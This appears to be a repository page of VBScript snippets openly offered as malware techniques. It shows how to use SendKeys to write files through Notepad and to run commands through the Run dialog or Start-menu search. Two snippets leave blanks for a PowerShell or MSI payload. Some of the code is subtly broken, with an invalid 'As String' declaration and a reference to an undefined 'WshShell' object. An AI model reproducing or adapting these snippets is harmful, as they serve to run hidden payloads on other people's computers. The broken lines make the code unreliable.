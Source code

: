 # VBScript

## File Transfer via Text Editor

> [!TIP] Enumerate Text Editors
> Do not feel restricted since it's a malware you're trying to create. You can enumerate any text editors that is installed in the system. It doesn't have only exclusive to `notepad.exe` user.

```vb
Dim Object_Shell
Set Object_Shell = CreateObject("WScript.Shell")

Dim text_editor, contents, filepath

text_editor = "notepad.exe"
contents = "This is a String"
filepath = "C:\\path\\to\\file.txt" 

' Open text editor
Object_Shell.Run text_editor
WScript.Sleep 3000

' Write the contents in the text editor
Object_Shell.SendKeys contents
WScript.Sleep 2000

' Open the Save dialog (Ctrl + S)
Object_Shell.SendKeys "^s"
WScript.Sleep 2000

' Save path of the file then return
Object_Shell.SendKeys filepath
WScript.Sleep 2000
Object_Shell.SendKeys "{ENTER}"

Set Object_Shell = Nothing
```

## Dialogue Box

```vb
Dim Object_Shell
Set Object_Shell = CreateObject("WScript.Shell")
Dim commands As String

' Add payload here. Such as, PowerShell, MSI, etc
commands = ""

' Open the Start Menu (Ctrl + Esc)
Object_Shell.SendKeys "^{ESC}"
WScript.Sleep 1000

' Open Dialogue Box (Win + R)
Object_Shell.SendKeys "r"
WScript.Sleep 1000

Object_Shell.SendKeys commands

Set WshShell = Nothing
```

## Search Bar

```vb
Dim Object_Shell
Set Object_Shell = CreateObject("WScript.Shell")
Dim commands As String

' Append @ as a prefix in order to execute commands.
' Add payload here. Such as, PowerShell, MSI, etc
commands = "@"

' Open the Start Menu (Ctrl + Esc)
Object_Shell.SendKeys "^{ESC}"
WScript.Sleep 1000

Object_Shell.SendKeys commands

Set WshShell = Nothing
```